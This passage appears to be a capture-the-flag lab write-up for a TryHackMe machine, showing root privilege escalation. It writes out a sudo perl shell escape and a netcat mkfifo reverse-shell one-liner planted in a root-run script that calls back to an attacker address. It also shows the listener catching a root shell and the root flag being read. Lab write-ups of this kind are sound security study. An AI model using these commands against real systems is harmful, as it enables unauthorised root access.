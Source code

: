 - escalate to root
- checking our `sudo` privileges, we can run `perl` as sudo...
```
sudo /usr/bin/perl -e 'exec "/bin/sh";'
```
- we also find a perl script in `/home/itguy/backup.pl`
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- Knowing we can run perl as root, lets edit this `copy.sh` script that it calls,
	- used code from [swisky](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#netcat-traditional). The Netcat BusyBox line
```
www-data@THM-Chal:/etc$ echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.1.119 1337 >/tmp/f" > copy.sh
<p/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.1.119 1337 >/tmp/f" > copy.sh       

www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.1.119 1337 >/tmp/f

```

- Execute #perl script with #sudo
	- Be sure to use full file paths found in `sudo -l`
```
www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl
```

- Catch reverse shell as root by running #perl script as #sudo 
```
┌──(root㉿kali)-[~/Transfer]
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.2.1.119] from (UNKNOWN) [10.10.80.46] 46854
# whoami
root
```

- Root flag
```
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```